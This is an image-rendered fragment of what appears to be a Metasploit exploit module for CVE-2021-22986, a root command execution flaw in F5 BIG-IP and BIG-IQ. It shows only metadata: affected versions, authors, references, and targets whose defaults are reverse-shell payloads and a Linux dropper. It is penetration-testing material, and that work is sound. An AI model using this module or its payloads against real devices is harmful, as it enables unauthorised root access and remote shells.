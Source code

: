 ```python
          can be used to execute root commands on an affected BIG-IP or BIG-IQ
          device. This vulnerability is known as CVE-2021-22986.

          CVE-2021-22986 affects the following BIG-IP versions:

          * 12.1.0 - 12.1.5
          * 13.1.0 - 13.1.3
          * 14.1.0 - 14.1.3
          * 15.1.0 - 15.1.2
          * 16.0.0 - 16.0.1

          And the following BIG-IQ versions:

          * 6.0.0 - 6.1.0
          * 7.0.0
          * 7.1.0

          Tested against BIG-IP Virtual Edition 16.0.1 in VMware Fusion.
        },
        'Author' => [
          'wvu', # Analysis and metasploit
          'Rich Warren' # First blood (RCE) and endpoint collaboration
        ],
        'References' => [
          ['CVE', '2021-22986'],
          ['URL', 'https://support.f5.com/csp/article/K03009991'],
          ['URL', 'https://attackerkb.com/assessments/f6b19d24-b24e-4abd-98cf-2988d7424311'],
          ['URL', 'https://research.nccgroup.com/2021/03/18/rift-detection-capabilities-for-recent-f5-big-ip-big-iq-icontrol-rest-api-vulnerabilities-cve-2021-22986/']
          # https://clouddocs.f5.com/products/big-iq/mgmt-api/v7.0.0/ApiReferences/bigiq_public_api_ref/r_auth_login.html
        ],
        'DisclosureDate' => '2021-03-10', # Vendor advisory
        'License' => MSF_LICENSE,
        'Platform' => ['unix', 'linux'],
        'Arch' => [ARCH_CMD, ARCH_X86, ARCH_X64],
        'Privileged' => true,
        'Targets' => [
          [
            'Unix Command',
            {
              'Platform' => 'unix',
              'Arch' => ARCH_CMD,
              'Type' => :unix_cmd,
              'DefaultOptions' => {
                'PAYLOAD' => 'cmd/unix/reverse_python_ssl'
              }
            }
          ],
          [
            'Linux Dropper',
            {
              'Platform' => 'linux',
              'Arch' => [ARCH_X86, ARCH_X64],
              'Type' => :linux_dropper,
              'DefaultOptions' => {
                'CMDSTAGER::FLAVOR' => :bourne,
                'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp'
              }
            }
          ]
        ],
        'DefaultTarget' => 0,
```